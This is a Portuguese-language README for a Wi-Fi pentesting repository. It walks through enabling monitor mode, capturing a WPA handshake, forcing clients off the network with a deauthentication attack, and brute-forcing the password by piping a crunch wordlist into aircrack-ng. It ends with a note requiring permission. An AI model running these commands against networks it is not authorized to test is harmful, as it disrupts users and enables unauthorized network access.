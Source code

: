# Hackeando Redes Wireless de Forma Simples
Este repositório destina-se a fornecer conhecimento e práticas para testes de penetração (pentest) em redes wireless. Aqui, detalhamos o uso das ferramentas `aircrack-ng` e `crunch` para avaliar a segurança de redes Wi-Fi.

## Estrutura do Repositório

- [`aircrack-ng/`](aircrack-ng/): Contém informações detalhadas e exemplos de uso do Aircrack-ng.
- [`crunch/`](crunch/): Contém informações detalhadas e exemplos de uso do Crunch.
- [`exemplo-redteam/`](exemplo-redteam/): Exemplos de uma operação de Red Team utilizando as ferramentas mencionadas.

## Índice

- [Introdução](#introdução)
- [Instalação das Ferramentas](#instalação-das-ferramentas)
- [Preparação do Ambiente](#preparação-do-ambiente)
- [Captura de Handshake](#captura-de-handshake)
- [Quebra de Senha com Aircrack-ng e Crunch](#quebra-de-senha-com-aircrack-ng-e-crunch)
- [Considerações Legais e Éticas](#considerações-legais-e-éticas)
- [Recursos Adicionais](#recursos-adicionais)

## Introdução

Este guia foi criado para fornecer conhecimento e práticas para realizar testes de penetração em redes Wi-Fi de forma ética e legal. As ferramentas utilizadas incluem `aircrack-ng` para captura e quebra de senhas de redes Wi-Fi, e `crunch` para geração de listas de senhas personalizadas.

## Instalação das Ferramentas

### Aircrack-ng

Para instalar o Aircrack-ng em sistemas Debian/Ubuntu:

```bash
sudo apt-get install aircrack-ng
```

Mais detalhes podem ser encontrados na pasta [`aircrack-ng/`](aircrack-ng/README.md).

### Crunch

Para instalar o Crunch em sistemas Debian/Ubuntu:

```bash
sudo apt-get install crunch
```

Mais detalhes podem ser encontrados na pasta [`crunch/`](crunch/README.md).

## Preparação do Ambiente

1. **Habilitar Modo Monitor na Interface de Rede**

    ```bash
    sudo airmon-ng start [NOME DA PLACA]
    ```
    ![Modo monitor img](others/mode-monitor)

2. **Capturar Pacotes de Rede**

    ```bash
    sudo airodump-ng wlan0mon
    ```
    ![Dump All](others/dump-all)

    Identifique o BSSID e o canal da rede alvo para fazer uma análise focada.

3. **Focar na Rede Alvo e Capturar Handshake**

    ```bash
    sudo airodump-ng --bssid [BSSID] --channel [canal] --write log wlan0mon
    ```
    ![Dump Target](others/dump-esp)

5. **Forçar a Reautenticação de Clientes (Opcional)**

    ```bash
    sudo aireplay-ng --deauth 10 -a [BSSID] -c [CLIENTE_MAC] wlan0mon
    ```
    ![Deauther](others/deauth)
    ![Dump handshake](others/dump-handshake)

## Captura de Handshake

Verifique se o handshake foi capturado corretamente:

```bash
aircrack-ng log.cap
```
![Verify Arc](others/verify-cap)

## Quebra de Senha com Aircrack-ng e Crunch

Use o `crunch` para gerar senhas e passe-as diretamente para o `aircrack-ng` usando pipes (`|`):

```bash
crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789 | aircrack-ng -w - -b [BSSID] log.cap
```
![Aircrack-ng](others/aircrack-ng)

### Parâmetros do Comando

- `crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789`: Gera todas as combinações possíveis de senhas com 8 caracteres usando letras minúsculas e dígitos.
- `|`: Pipe que redireciona a saída de `crunch` para o `aircrack-ng`.
- `-w -`: Indica que `aircrack-ng` deve ler a lista de senhas da entrada padrão (stdin).
- `-b [BSSID]`: Especifica o BSSID da rede alvo.
- `log.cap`: Arquivo de captura contendo a handshake.

## Considerações Legais e Éticas

> [!NOTE]
> O uso das ferramentas descritas neste guia deve ser restrito a redes para as quais você tem permissão explícita para realizar testes de segurança. O uso não autorizado dessas ferramentas é ilegal e antiético. Sempre obtenha permissão antes de realizar qualquer teste de penetração.

## Recursos Adicionais

- [Documentação do Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=getting_started)
- [Documentação do Crunch](https://tools.kali.org/password-attacks/crunch)

---

Este guia foi criado para fornecer conhecimento e práticas para realizar testes de penetração em redes Wi-Fi de forma ética e legal. Se tiver dúvidas ou sugestões, sinta-se à vontade para contribuir com este repositório.
